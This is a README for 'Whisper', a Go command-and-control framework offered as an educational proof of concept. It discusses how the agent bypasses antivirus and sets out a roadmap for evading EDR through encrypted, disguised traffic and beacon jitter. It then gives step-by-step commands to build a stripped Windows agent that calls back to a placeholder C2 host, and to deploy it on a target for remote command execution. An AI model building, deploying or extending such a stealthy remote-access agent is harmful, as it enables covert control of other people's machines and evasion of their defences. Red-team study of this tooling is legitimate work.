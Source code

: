 # Whisper C2 Framework

![Status](https://img.shields.io/badge/status-proof%20of%20concept-brightgreen) [![Go Version](https://img.shields.io/badge/go-1.18+-00ADD8.svg)](https://go.dev/) [![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)

Whisper is a lightweight, TCP-based Command and Control (C2) framework built entirely in Go. It was developed for educational purposes to explore the fundamentals of C2 architecture and the challenges of evading modern security solutions.

This project serves as a practical tool for researchers, students, and cybersecurity professionals to understand offensive tooling in a controlled, ethical environment.

---

## ⚠️ Disclaimer

This project is intended **solely for educational and research purposes**. The goal is to study adversarial techniques to build better defensive strategies. The author is not responsible for any misuse or damage. **Use this tool ethically and only on systems you have explicit permission to test.**

---

## 🧠 Core Concepts: Bypassing Static vs. Dynamic Analysis

A key goal of this project is to understand how security products detect threats. The current version of Whisper can remain undetected by some basic antivirus (AV) solutions for two main reasons:

1.  **Unique Signature:** As a custom-coded tool, its file hash is not in any AV vendor's database of known malware. It bypasses **static analysis** because it has no recognized malicious signature.

2.  **Simple Behavior:** The agent's current actions (making a TCP connection, running a command) are not inherently malicious enough to trigger alarms in AV products that are not performing aggressive **behavioral analysis**.

The real challenge, and the future goal of this project, is to evade **Endpoint Detection and Response (EDR)** systems. An EDR actively monitors system behavior and would likely flag Whisper for:

* An unknown, unsigned program making a persistent network connection.
* An unusual parent-child process relationship (e.g., `agent.exe` spawning `whoami.exe`).

The roadmap below outlines the features needed to bypass this more advanced, behavior-based detection.

---

## ✨ Current Features

* **TCP-Based C2 Channel**: Simple and direct network communication between the agent and server.
* **Remote Command Execution**: Execute shell commands on a target machine via the agent.
* **Asynchronous Command Handling**: Built with Go's goroutines to manage multiple agents without blocking.
* **Cross-Platform Portability**: Easily cross-compile the agent for Windows, Linux, and macOS.

---

## 🗺️ The Road to True Stealth: Project Roadmap

The following features are planned to evolve Whisper from a simple C2 into a framework capable of evading more sophisticated, behavior-based security solutions.

* [X] **Encrypted C2 Channels (TLS):** Encrypt all traffic between the agent and server to prevent network inspection and hide commands.
* [X] **Malleable C2 Profiles:** Disguise C2 traffic to look like legitimate web traffic (e.g., HTTP/S POST requests) to blend in with normal network activity.
* [ ] **Sleep Obfuscation & Jitter:** Introduce randomized delays (jitter) to the agent's check-ins to make its beaconing pattern less predictable and harder to detect.

---


## 🛠️ Getting Started

### Prerequisites

* [Go](https://go.dev/doc/install) (Version 1.18 or higher)
* A basic understanding of networking and command-line interfaces.

### Installation and Setup

First, clone the repository to your local machine:

    ```bash
    git clone https://github.com/rahdian-abdi/whisper.git
    cd whisper
    ```

### **Option 1: Raw TCP Mode** 🔌

This is the simplest mode, using a direct, unencrypted TCP connection.

#### **Server Setup (Raw TCP)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/rawtcp
    ```

2.  **Run the Server:**
    The server will start listening for incoming connections.
    ```bash
    go run main.go
    ```
    *(Note: For production use, build the binary first with `go build .`)*

#### **Agent Setup (Raw TCP)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/rawtcp
    ```
    Open `main.go` and set the `c2Host` and `c2Port` variables to your server's IP and port.
    ```go
    // agent/rawtcp/main.go
    var (
        c2Host = "YOUR_C2_IP_HERE"
        c2Port = "8080"
    )
    ```

2.  **Build the Agent:**
    Compile the agent executable. This command creates a Windows binary and strips debug symbols to reduce its size.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_rawtcp.exe .
    ```

---

### **Option 2: HTTPS Mode (Malleable C2)** 🌐

This mode uses HTTPS for encrypted communication, making it stealthier.

#### **Server Setup (HTTPS)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/https
    ```

2.  **Generate TLS Certificates:**
    The server requires a TLS certificate and key. The provided `openssl.conf` simplifies this process.
    ```bash
    # Create the directory to store certificates
    mkdir certs

    # Generate the certificate and key
    openssl req -new -x509 -config openssl.conf -keyout certs/c2.key -out certs/c2.crt -days 365 -nodes
    ```
    *Note: You can edit `openssl.conf` to change certificate details like the IP or domain name.*

    You can find the minimal setup of the `openssl.conf` below
    ```
    [req]
    distinguished_name = req_distinguished_name
    x509_extensions = v3_req
    prompt = no

    [req_distinguished_name]
    CN = YOUR_C2_SERVER_IP_HERE

    [v3_req]
    keyUsage = keyEncipherment, dataEncipherment
    extendedKeyUsage = serverAuth
    subjectAltName = @alt_names

    [alt_names]
    IP.1 = YOUR_C2_SERVER_IP_HERE
    ```

3.  **Run the Server:**
    ```bash
    go run main.go
    ```

#### **Agent Setup (HTTPS)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/https
    ```
    Open `main.go` and set the `c2URL` variable to your server's full URL.
    ```go
    // agent/https/main.go
    c2URL := "https://YOUR_C2_IP_OR_DOMAIN"
    ```

2.  **Build the Agent:**
    Compile the agent executable for a Windows target.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_https.exe .
    ```

---

## 🖥️ Usage

1.  **Start Your Chosen Server:** Follow the setup steps to run either the `rawtcp` or `https` server.
2.  **Deploy the Agent:** Transfer the corresponding compiled agent (`agent_rawtcp.exe` or `agent_https.exe`) to a target machine you are authorized to test on and execute it.
3.  **Interact with the Agent:** When the agent connects, the server terminal will notify you and prompt for a command.
    ```
    [*] Whisper HTTPS C2 listening on https://0.0.0.0:443
    [whisper]> whoami
    [*] Sent to Agent: whoami

    [Agent Output] desktop-cej30mv\john
    ```

---

## 🤝 Contributing

Contributions, issues, and feature requests are welcome! Feel free to check the issues page for this repository to contribute.

---

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.